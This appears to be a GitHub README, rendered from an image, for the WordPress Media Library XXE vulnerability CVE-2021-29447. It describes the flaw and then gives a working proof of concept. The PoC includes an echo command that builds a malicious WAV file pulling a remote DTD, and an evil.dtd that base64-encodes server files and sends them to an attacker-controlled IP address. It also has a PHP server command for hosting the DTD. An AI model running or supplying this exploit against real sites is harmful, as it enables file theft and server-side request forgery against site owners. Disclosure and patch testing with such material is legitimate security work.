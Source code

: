 # WordPress XXE Vulnerability in Media Library

## Description

WordPress versions 5.7, 5.6.2, 5.6.1, 5.6, 5.0.11 are affected to XML eXternal Entity vulnerability where an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF). You can upload media file on WordPress Media Library in order to use it inside a post. Once a WAVE file is uploaded, the wp_read_audio_metadata() WordPress function extracts audio information from the iXML metadata included in $thisfile_riff_WAVE['iXML'][0]['data'] variable that can contains malicious XML eXternal Entity.

## Proof of concept

Creating a malicious .WAV payload
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://192.168.1.7:9123/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Create the evil.dtd payload
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/opt">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.18/?p=%file;'>">
```

Host the evil.dtd on HTTP service, upload the file and wait for the payload to execute
```
php -S 0.0.0.0:80
```

#### References
https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/
